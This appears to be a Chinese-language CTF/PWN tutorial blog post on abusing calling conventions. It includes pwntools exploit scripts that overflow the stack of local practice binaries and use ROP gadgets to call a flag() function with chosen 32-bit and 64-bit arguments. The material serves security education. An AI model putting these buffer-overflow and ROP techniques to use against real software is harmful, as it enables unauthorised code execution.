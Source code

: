 ```yaml
---
title: 攻击调用约定
subtitle: 利用调用约定
date: 2023-08-11T15:31:21+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: false
math: false
lightgallery: true
password:
message:
repost:
  enable: false
  url:
---
```


利用调用约定。

<!--more-->

{{< link href="/pwn_assets/exploiting_with_params.zip" content="exploiting_with_params.zip" title="Download exploiting_with_params.zip" download="exploiting_with_params.zip" card=true >}}

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3RoV.png"/>
</div>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3hJU.png"/>
</div>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里
——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

# Padding 到 EIP
payload = b'A' * 52
# flag() 的地址
payload += p32(0x080491c7)
# 避免异常
payload += p32(0x0)
# 第一个参数
payload += p32(0xdeadc0de)
# 第二个参数
payload += p32(0xc0ded00d)

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为
`rdi` 和 `rsi` ，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

# Padding 到 RIP
payload = b'A' * 56
# pop rdi ; ret
payload += p64(POP_RDI)
# 进入 rdi 的值 - 第一个参数
payload += p64(0xdeadc0de)
# pop rsi ; pop r15 ; ret
payload += p64(POP_RSI_R15)
# 进入 rsi 的值 - 第二个参数
payload += p64(0xc0ded00d)
# 进入 r15 的值 - 避免异常
payload += p64(0x0)
# flag() 的地址
payload += p64(0x40116f)
# 避免异常
payload += p64(0x0)

p.sendline(payload)

p.interactive()
```

{{<admonition type="info">}}

在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面
奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，
确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。

通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。

{{</admonition>}}

